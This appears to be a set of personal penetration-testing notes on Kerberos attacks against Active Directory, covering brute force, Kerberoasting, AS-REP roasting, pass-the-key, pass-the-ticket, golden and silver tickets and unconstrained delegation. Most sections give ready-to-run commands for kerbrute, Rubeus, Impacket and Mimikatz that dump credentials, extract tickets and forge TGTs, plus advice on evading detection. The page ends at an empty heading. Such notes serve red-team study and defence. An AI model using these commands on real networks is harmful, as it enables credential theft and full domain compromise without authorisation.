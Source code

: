 # Brute Force
We can brute force username and password based on the errors that we get from kerberos.
- `KDC_ERR_PREAUTH_FAILED`: Incorrect password
- `KDC_ERR_C_PRINCIPAL_UNKNOWN`: Invalid username
- `KDC_ERR_WRONG_REALM`: Invalid domain
- `KDC_ERR_CLIENT_REVOKED`: Disabled/Blocked user
### Rubeus
```powershell
./rubeus.exe brute /password:<password> /noticket
```
### Kerbrute (go)
1. User Enumeration
```bash
./kerbrute userenum -d mydomain.local usernames.txt
```
2. Password brute-force
```bash
cat user_password.txt | ./kerbrute -d mydomain.local bruteforce -
```
### Kerbrute.py
```bash
python kerbrute.py -domain mydomain.local -users user.txt -passwords pass.txt -dc-ip <ip>
```
# Kerberoast
- ST can be requested by any user for any service if it's [[Active Directory/AD Concepts/Services#SPN|SPN]] is registered in the domain.
- STs are encrypted with the service account which runs the service.
- Hence, we can try to crack the password of the service user account.
- In case of managed service accounts, the password is of 120 characters and changes every month, hence it is not possible to crack their password.
- However, some services are run with normal user accounts, managed by people, that can have weak password.
- Kerberoast involves service running under regular user accounts. We can request STs for the services and crack password locally.
We can query for users with SPNs with LDAP module or AD-RSAT module
- LDAP
```ladp
(&(samAccountType=805306368)(servicePrincipalName=*))
```
- AD-RSAT
```powershell

```
Impacket's `GetUserSPNs.py` script can be used to query users with SPN and request STs for the service.
```bash
# This will search for SPNs, request STs for the same using supplied credentials and same the STs in "kerberoast.hash"
python GetUserSPNs.py 'mydomain.local@a.drdragon:Password!!' -dc-ip <ip> -outputfile kerberoast.hash
```
# AS-REPRoast
- In kerberos, pre-authentication is required for users. 
- Pre-Authentication is when a user sends the timestamp encrypted with it's kerberos key to request TGT (AS-REQ)
- In some cases, some users may have the `DONT_REQUIRE_PREAUTH` flag set. These users don't need to encrypt their timestamp with their kerberos key, hence anyone can create AS-REQ as that user and receive AS-REP encrypted with these users's key.
- AS-REProast involves impersonating these users and receiving the AS-REP. The AS-REP can be cracked offline to recover the password of the user.
- LDAP filter to query users without pre-authentication.
```ldap
(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))
```
- Impacket's GetNPUsers.py script can be used to get the users without pre-authentication and get their AS-REP data.
```bash
GetNPUsers.py 'mydomain.local\drdragon:Password!!' --dc-ip -outputfile asrep-hashes.txt
```

# Pass the Key/Overpass the Hash
- To request a TGT, the user needs to send a timestamp encrypted with it's key.
- If we have a user's key, it can be used to request a TGT of the user.
- Kerberos keys are cached in `lsass` process. Can be extracted using [[Active Directory/Credential Dumping/Mimikatz|Mimikatz]]
```bash
sekurlsa::ekeys
```
# Pass the Ticket
- Pass the ticket involves stealing the ticket and the session key and using it impersonate the user to get access to resources or services.
- TGT & ST can be used, but TGTs are preferred because we get access to any service.
- Tickets can be extracted from lsass memory using [[Active Directory/Credential Dumping/Mimikatz|Mimikatz]] in windows.
```mimi
sekurlsa::tickets
```
- On linux, it the keys are located in files. Location of these files can be found in the kerberos configuration files: `/etc/krb5.conf`.
- To use these tickets in windows, [[Active Directory/Credential Dumping/Mimikatz|Mimikatz]] can be used:
```mimi
kerberos::ptt my-tgt.kirbi
```
# Golden Tickets
- TGTs are encrypted with the `krbtgt`'s key derived from it's password.
- If we get hold of this key, we can forge TGTs for any user. These tickets are called Golden Tickets.
- This can be done using dumping credential of the domain controller or via [[DCSync]] attack.
- This can also be done by dumping the NTDS.dit file locally.
- Using impacket's secretsdump.py:
```bash
secretsdump.py 'mydomain.local/drdragon@192.168.2.2' -just-dc-user krbtgt
```
- To issue TGTs from the keys, impacket's ticketer.py can be used:
```bash
ticketer.py -domain-sid <domainSID> -domain mydomain.local -aes <aesKey> Administrator
# This will create the TGT for the Administrator user and save it in Administrator.ccache
```
- AES256 keys should be used to avoid any alerts or detection.
# Silver Tickets
- STs are encrypted with the service user's key derived from it's password.
- If we have this key, we can forge ST's for any service running under that user. These tickets are called Silver Tickets.
- The key can be dumped from the lsass process memory or by [[#Kerberoast]], or dumping the entire AD Database (NTDS.dit file)
- The PAC is signed with the `krbtgt`'s account, hence a fake signature is used to create the PAC. The PAC signature is not verified if the the ticket is less than 20 minutes old. We can also add more privilege to the PAC, as it is not verified. For example, we can modify the PAC user group to include the `Domain Admins`. 

# Unconstrained Delegation
When a user requests for ST, and if the service owner has the `TRUSTED_FOR_DELEGATION` flag set in [[Active Directory/AD Concepts/Users#User Account Control|User Account Control]], the ST received from the KCD will have the `OK_AS_DELEGATE` flag set.
To set `TRUSTED_FOR_DELEGATION` flag in User Account Control, the user needs to have `SeEnableDelegationPrivilege` privilege.

#### Ticket Acquisition
- Client requests for the ST for a service with SPN `HTTP\webserv` which is owned by `websrv$` machine account.
- The KDC checks for `TRUSTED_FOR_DELEGATION` in `websrv$` account's UAC. KDC returns a ST with `OK_AS_DELEGATE` and `FORWARDABLE` flag set.
- The Client checks of these flags and asks a `FORWARDED` TGT. The KDC responds with a TGT with `FORWARDED` flag set.
- The Client sends the ST and the `FORWARDED` TGT to the service for access. 
- The Serivice uses this TGT to request ST for `MSSQLSvc\dbsrv` serivce.
- Websrv uses the ST to get access to the MSSQL service.

### Flaw
If the service account that is `TRUSTED_FOR_DELEGATION` is compromised, we get access to TGTs for uses that have tried to connect to this service. Mimikatz can be used to get access to the TGTs cached in lsass process.
```mimi
mimikatz sekurlsa::tickets
```
### Identifying accounts with unconstrained delegation
```ldap
(UserAccountControl:1.2.840.113556.1.4.803:=524288)
```

# S4U Attacks
